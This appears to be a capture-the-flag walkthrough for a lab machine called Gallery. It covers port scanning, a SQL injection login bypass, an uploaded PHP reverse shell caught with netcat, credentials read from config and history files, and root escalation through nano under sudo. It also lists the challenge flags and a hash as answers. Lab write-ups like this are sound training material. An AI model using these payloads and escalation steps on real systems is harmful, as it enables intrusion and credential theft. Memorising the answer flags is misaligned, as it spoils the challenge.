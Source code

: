 # Gallery

* IP = 10.10.4.131

## Questions/Tasks:
1. How many ports are open?

* Nmap scan report:
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System

```
**Ans-2**

2. What's the name of the CMS?

* Gobuster report:
```bash
2022/06/20 11:45:53 Starting gobuster
=====================================================
/gallery (Status: 301)
Progress: 26788 / 87666 (30.56%)
```
* Navigating to '/gallery' we're redirected to '/gallery/login.php'
* Firstly we try random creds like: _admin_ and _admin_ and get the following response when we inspect with dev tools:<br>
![Screenshot](./inspect.png)
* The login page is vulnerable to SQL injection(found by observation and testing around)
* Login to /gallery by:
```
' OR 1=1 #
```
in both username and password fields.
**Ans-Simple Image Gallery**

3. What's the hash password of the admin user?

* We navigate to this page(the my account page of the Admin):
![Screenshot](./1.png)
* Try to upload PHP reverse shell code attached with project
  Since the backend is probably made on PHP(hint: login page was login.php)
* Put a netcat listener:
```bash
nc -lnvp 7777
```
* And we get a reverse shell!
![Screenshot](./2.png)
* Stabilise the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* We're www-data with lower privileges
* mike is a user in home directory
### Start enumerating the server:
* The /var/www/html/gallery contents:
```bash
www-data@gallery:/var/www/html/gallery$ ls
404.html  build               database  index.php       report       user
albums    classes             dist      initialize.php  schedules
archives  config.php          home.php  login.php       system_info
assets    create_account.php  inc       plugins         uploads

```
* Contents of initialize.php:
```php

  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

    if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
    if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
    if(!defined('dev_data')) define('dev_data',$dev_data);
    if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
    if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
    if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
    if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");


```
* The password mentioned in clear text is of dev_oretnom which might be creds of MariaDB database admin
* We login with gallery_user and passw0rd321:
```bash
mysql -u gallery_user -p
```
* We login successfully!
![Screenshot](./3.png)
* Henceforth we explore the database:<br>
![Screenshot](./4.png)
![Screenshot](./5.png)
![Screenshot](./6.png)

**Ans-a228b12a08b6527e7978cbe5d914531c**

4. What's the user flag?

* In the /var directory we find backups directory which contains mike's home backup:
* In which we can find the sudo password for mike from .bash_history:
![Screenshot](./7.png)
![Screenshot](./8.png)
* The password:
```
b3stpassw0rdbr0xx
```
* Escalate with:
```bash
su mike
```

**Ans-THM{af05cd30bfed67849befd546ef}**

5. What's the root flag?

* To Escalate to root privileges we first check commands that can be run as root with:
```bash
$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```
* As we can see we can run the above program as root:
* Navigating to /opt and the file contents are:
```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
* In the above 4 options we can run nano as root
* Hence we execute:
```bash
sudo /bin/bash /opt/rootkit.sh
```
* Take help from <a href="https://gtfobins.github.io/">gtfobins</a> to Escalate privileges through nano:
```bash
nano
^R^X
reset; sh 1>&0 2>&0
```
* ctrl+R for Read File and then ctrl+X to execute commands
![Screenshot](./9.png)
* Navigate to /root and check the root.txt file
**Ans**-<br>
```
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```
